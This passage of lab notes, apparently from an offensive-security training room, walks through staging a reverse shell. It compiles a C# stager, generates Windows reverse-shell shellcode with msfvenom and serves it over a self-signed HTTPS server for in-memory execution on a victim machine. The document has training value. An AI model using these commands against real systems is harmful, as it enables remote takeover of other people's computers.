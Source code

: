 	- Basically, the main thread doesn't exit until the secondary thread finishes its task.


- To compile the code, we suggest copying it into a Windows machine as a file called `staged-payload.cs` and compiling it by:

```shell-session
PS C:\> csc staged-payload.cs
```


### Using our stager to run a reverse shell
- Once our payload is compiled, we will need to **set up a web server to host** the final shellcode.
- Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory.
- Let's start by generating a shellcode with `msfvenom`:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.83.132 LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

![](/assets/img/Pasted image 20230113115854.png)

	- Notice that we are using the RAW FORMAT OF OUR SHELLCODE, as the stager will directly load whatever it downloads into memory.

- Now that we have a shellcode, let's set up a simple HTTPS server.
- First, we'll need to create a **self-signed certificate** with the following command:

```shell-session
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

	 - You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid.
	 - Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

```shell-session
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

	- Note that this is for downloading the shellcode binary from the attacker's machine in an encrypted way.
	- This isn't for encrypted reverse shell.

##### 1. Compiling the `C#` file and executing it:

![](/assets/img/Pasted image 20230113120901.png).

##### 2. POV of Attacker:

![](/assets/img/Pasted image 20230113120935.png)
